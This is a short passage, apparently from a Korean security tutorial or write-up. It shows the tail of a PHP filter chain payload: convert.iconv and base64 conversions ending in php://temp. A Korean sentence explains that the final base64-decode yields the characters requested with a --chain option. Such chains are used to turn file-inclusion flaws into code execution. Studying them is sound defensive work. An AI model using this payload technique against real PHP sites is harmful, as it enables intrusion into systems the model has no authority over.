decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

위에서 보면 알 수 있듯이 가장 마지막에 "convert.base64-decode" 진행하여 base64-encode된 문자를 최종적으로 base64-decode하여 `--chain "char"`에 입력한 문자와 같아지도록 만들어주고 있습니다.